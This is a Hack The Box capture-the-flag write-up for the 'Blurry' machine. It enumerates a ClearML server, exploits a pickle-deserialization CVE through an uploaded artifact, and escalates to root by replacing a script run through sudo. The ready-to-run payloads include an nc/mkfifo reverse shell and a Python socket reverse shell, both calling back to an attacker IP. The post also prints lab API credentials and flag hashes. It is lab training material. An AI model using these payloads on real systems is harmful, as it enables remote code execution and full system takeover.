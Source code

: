 ```yaml
---
layout: post
title: "HTB Linux Medium: Blurry"
description: "Blurry is a Medium rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -p 22,80 10.129.83.207
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-06-11 10:37 EDT
Nmap scan report for app.blurry.htb (10.129.83.207)
Host is up (0.024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: ClearML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 9.03 seconds
```

Modify hosts file:
```bash
┌──(kali㉿kali)-[~]
└─$ tail -n 1 /etc/hosts
10.129.83.207 app.blurry.htb blurry.htb
```


## Enumerate HTTP (Port 80)
The `blurry.htb` domain redirects to: `app.blurry.htb`.
![Pasted image 20240714212110.png](/images/Pasted image 20240714212110.png){: .normal }


Enter a name and press start.
![Pasted image 20240714212104.png](/images/Pasted image 20240714212104.png){: .normal }


Found a CVE for clearml, create the following script: [Link](https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/)
```bash
import pickle
import os
from clearml import Task

class CMD:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | ''/bin/sh -i 2>&1 | nc 10.10.14.85 1337 > /tmp/f')
        return os.system, (cmd,)

task = Task.init(project_name='Black Swan', task_name='exploit', tags=["review"], output_uri=True)
task.upload_artifact(name='pickle_artifact', artifact_object=CMD(), retries=2, wait_on_upload=True)
```

Setup before script execution:
```bash
# Hosts file
10.129.83.207 app.blurry.htb blurry.htb api.blurry.htb files.blurry.htb

# Python dependencies
pip install clearml
cd /home/kali/.local/bin
./clearml-init

# Create app creds: settings/workspace-configuration
Paste copied configuration here:
api { 
    web_server: <http://app.blurry.htb>
    api_server: <http://api.blurry.htb>
    files_server: <http://files.blurry.htb>
    # test
    credentials {
        "access_key" = "6HDJONYS7ZPR5RPCRZ27"
        "secret_key"  = "BpHQ93iWfZNUsbo4gXyHMIRIjozAC378lo7qkB6nz6ZZhN7eDK"
    }
}
```

Shell as jippity:
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1337 
listening on [any] 1337 ...
connect to [10.10.14.85] from (UNKNOWN) [10.129.83.207] 40314
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(jippity) gid=1000(jippity) groups=1000(jippity)
```

User.txt: `23cc38ffa8a810eea5e6c4ea5150196f`
```bash
$ cat user.txt
23cc38ffa8a810eea5e6c4ea5150196f
```


## Privilege Escalation
Sudo -l output:
```bash
jippity@blurry:~$ sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

We have full permissions on the directory, meaning we can replace the content of the evaluate_model.py file with a reverse shell:
```bash
# ls -al | grep models
drwxrwxr-x   2 root jippity  4096 Jun 11 11:12 models
```

Modify evaluate_model.py.
```bash
# Create new file
jippity@blurry:/models$ mv evaluate_model.py evaluate.py
jippity@blurry:/models$ touch evaluate_model.py

# Content
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.85",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Execute:
```bash
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/demo_model.pth 
```

Shell as root:
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.85] from (UNKNOWN) [10.129.83.207] 53244
# id
uid=0(root) gid=0(root) groups=0(root)
```

Root.txt: `2b2599ad8fc612e810a0c2299d34344d`
```bash
# cat root.txt
2b2599ad8fc612e810a0c2299d34344d
```


## PWNED!!!
![Pasted image 20240714212052.png](/images/Pasted image 20240714212052.png){: .normal }